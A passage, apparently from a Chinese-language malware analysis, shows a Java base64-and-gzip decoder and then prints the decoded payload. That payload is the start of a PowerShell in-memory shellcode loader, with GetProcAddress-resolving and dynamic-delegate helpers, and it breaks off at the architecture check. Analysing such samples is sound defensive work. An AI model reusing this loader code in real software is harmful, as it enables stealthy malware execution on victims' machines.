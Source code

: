 ```php
        byte\[\] res \= Base64.getDecoder().decode(bytess);//base64解码  
        byte\[\] bres \= uncompress(res);//gzip解码  
        fileOutputStream.write(bres);  
        System.out.println("解码完成，生成文件Afterdbase64Dgzip.txt");  
        }  
    }  
    /\*\*  
     Gzip解压  
     \*/  
    public static byte\[\] uncompress(byte\[\] bytes) throws ZipException, IOException {  
        if (bytes \== null || bytes.length \== 0) {  
            return null;  
        }  
        ByteArrayOutputStream out \= new ByteArrayOutputStream();  
        ByteArrayInputStream in \= new ByteArrayInputStream(bytes);  
        GZIPInputStream ungzip \= new GZIPInputStream(in);  
        byte\[\] buffer \= new byte\[256\];  
        int n;  
        while ((n \= ungzip.read(buffer)) \>= 0) {  
            out.write(buffer, 0, n);  
        }  
        return out.toByteArray();  
    }  
}  
​
```

解出来之后：

```php
Set-StrictMode \-Version 2  
​  
function func\_get\_proc\_address {  
    Param ($var\_module, $var\_procedure)       
    $var\_unsafe\_native\_methods \= (\[AppDomain\]::CurrentDomain.GetAssemblies() | Where-Object { $\_.GlobalAssemblyCache \-And $\_.Location.Split('\\\\')\[\-1\].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')  
    $var\_gpa \= $var\_unsafe\_native\_methods.GetMethod('GetProcAddress', \[Type\[\]\] @('System.Runtime.InteropServices.HandleRef', 'string'))  
    return $var\_gpa.Invoke($null, @(\[System.Runtime.InteropServices.HandleRef\](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($var\_unsafe\_native\_methods.GetMethod('GetModuleHandle')).Invoke($null, @($var\_module)))), $var\_procedure))  
}  
​  
function func\_get\_delegate\_type {  
    Param (  
        \[Parameter(Position \= 0, Mandatory \= $True)\] \[Type\[\]\] $var\_parameters,  
        \[Parameter(Position \= 1)\] \[Type\] $var\_return\_type \= \[Void\]  
    )  
​  
    $var\_type\_builder \= \[AppDomain\]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), \[System.Reflection.Emit.AssemblyBuilderAccess\]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', \[System.MulticastDelegate\])  
    $var\_type\_builder.DefineConstructor('RTSpecialName, HideBySig, Public', \[System.Reflection.CallingConventions\]::Standard, $var\_parameters).SetImplementationFlags('Runtime, Managed')  
    $var\_type\_builder.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $var\_return\_type, $var\_parameters).SetImplementationFlags('Runtime, Managed')  
​  
    return $var\_type\_builder.CreateType()  
}  
​  
If (\[IntPtr\]::size \-eq 4) {  
```